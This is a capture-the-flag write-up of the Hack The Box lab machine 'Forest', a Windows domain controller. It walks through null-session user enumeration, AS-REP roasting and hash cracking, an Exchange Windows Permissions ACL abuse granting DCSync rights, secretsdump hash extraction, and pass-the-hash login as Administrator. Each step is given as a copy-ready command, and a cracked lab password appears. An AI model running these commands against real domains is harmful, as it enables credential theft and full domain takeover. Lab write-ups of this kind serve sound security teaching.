<p style="text-align:center">
  
</p>

<p>
  
  
  
</p>

> **TL;DR** - A Windows domain controller that allows null-session enumeration over SMB/RPC, leaking the full list of domain users. One of them, `svc-alfresco`, has Kerberos pre-authentication disabled, so we AS-REP roast it, crack the hash to `s3rvice`, and log in over WinRM for `user.txt`. For root, BloodHound maps an ACL chain: `svc-alfresco` has `GenericAll` over the **Exchange Windows Permissions** group, that group holds **WriteDACL** over the domain object, so we add ourselves to the group, grant our user **DCSync** rights, dump the Administrator NT hash with `secretsdump`, and pass-the-hash in as Domain Admin.

---

## Recon

I started with a full nmap scan.

```bash
nmap -sV -sC -p- -oA nmap/forest 10.129.95.210
```


The open ports paint a clear picture of a Windows **Domain Controller**: Kerberos (88), DNS (53), LDAP (389/3268), SMB (445) and WinRM (5985). The two HTTP ports just return `Not Found`, so they're a dead end.

I added the domain to my `/etc/hosts`:

```bash
echo "10.129.95.210 htb.local" | sudo tee -a /etc/hosts
```

On a DC, the interesting surface is **SMB (445)** — it's where the shares live and, more importantly, where we can try to enumerate domain users without credentials.

---

## Enumeration

I used `rpcclient` with a null session (no username, no password) and issued `enumdomusers` to list the domain accounts.

```bash
rpcclient -U "" -N 10.129.95.210
rpcclient $> enumdomusers
```



This returned a bunch of them. I saved every account into `users.txt`, one per line — this becomes the target list for the next step.

---

## Foothold - AS-REP Roasting

With a list of valid users, I checked which accounts have **Kerberos pre-authentication disabled**. Those accounts will hand out an AS-REP encrypted with the user's password hash to anyone who asks, so no credentials are needed to request it.

```bash
GetNPUsers.py htb.local/ -usersfile users.txt -no-pass -dc-ip 10.129.95.210
```



`svc-alfresco` came back roastable, giving me its AS-REP hash. Time to crack it.

```bash
hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt
```


Cracked:

```
svc-alfresco : s3rvice
```

I confirmed the credentials are valid against the DC.



And checked WinRM access specifically, since the account is in **Remote Management Users**.



They're valid, so I logged in with `evil-winrm`.

```bash
evil-winrm -i 10.129.95.210 -u svc-alfresco -p s3rvice
```



And we're in as `enox`... I mean `svc-alfresco`, with `user.txt`.



---

## Privilege Escalation - ACL abuse → DCSync

With valid creds, I ran BloodHound to collect the AD data and look for a path to the Administrator.

```bash
bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -ns 10.129.95.210 -c All --zip
```

The path it found: `svc-alfresco` has **GenericAll** over the **Exchange Windows Permissions** group, and that group holds **WriteDACL** over the `HTB.LOCAL` domain object. So the chain is: add myself to the group → use the group's WriteDACL to grant myself **DCSync** → dump every hash in the domain.

**Step 1 — add myself to Exchange Windows Permissions** (abusing GenericAll):

```bash
bloodyAD --host "10.129.95.210" -d "htb.local" -u "svc-alfresco" -p "s3rvice" \
  add groupMember "Exchange Windows Permissions" "svc-alfresco"
```



We're now in that group. Back in BloodHound, this confirms we can **WriteDACL** to the `HTB.LOCAL` domain.



**Step 2 — grant our user DCSync rights** using that WriteDACL:

```bash
bloodyAD --host "10.129.95.210" -d "htb.local" -u "svc-alfresco" -p "s3rvice" \
  add dcsync "svc-alfresco"
```



**Step 3 — DCSync: dump all domain hashes**, including the Administrator's.

```bash
impacket-secretsdump htb.local/svc-alfresco:s3rvice@10.129.95.210
```



**Step 4 — pass-the-hash as Administrator** over WinRM, using the NT hash from the dump.

```bash
evil-winrm -i 10.129.95.210 -u Administrator -H <administrator_nt_hash>
```



And we're `Administrator`. On the Desktop, there's `root.txt`.



---

## Conclusion

Forest is a clean run through a classic Active Directory kill chain: null-session enumeration leaks the users, AS-REP roasting leaks a crackable hash, and BloodHound leaks the ACL path to the top. The foothold is a good reminder that a DC willing to talk to anonymous clients hands an attacker their whole target list for free.

The privesc is the interesting part: a single over-privileged group membership (`GenericAll` on Exchange Windows Permissions, which itself had `WriteDACL` on the domain) cascades straight into full domain compromise via DCSync. The takeaway is that ACLs are the real attack surface in AD — the box has no exploit in the traditional sense, just permissions that chain together into Domain Admin.

---

## Kill chain summary

| Phase    | Vector                                                      | Result                           |
| -------- | ----------------------------------------------------------- | -------------------------------- |
| Recon    | nmap full scan → DC services (SMB/Kerberos/LDAP/WinRM)      | Attack surface                   |
| Enum     | `rpcclient` null session → `enumdomusers`                   | Domain user list                 |
| Foothold | AS-REP roast `svc-alfresco` → hashcat → WinRM               | `svc-alfresco` - user.txt        |
| Crack    | hashcat (mode 18200)                                        | `svc-alfresco : s3rvice`         |
| PrivEsc  | GenericAll → Exchange Windows Permissions → WriteDACL → DCSync | Administrator NT hash         |
| Root     | Pass-the-hash as Administrator over WinRM                   | `Administrator` - root.txt       |

## References

- Impacket (GetNPUsers / secretsdump) - https://github.com/fortra/impacket
- bloodyAD - https://github.com/CravateRouge/bloodyAD
- BloodHound.py - https://github.com/dirkjanm/BloodHound.py
- HackTricks - AS-REP Roasting - https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast
- HackTricks - DCSync - https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync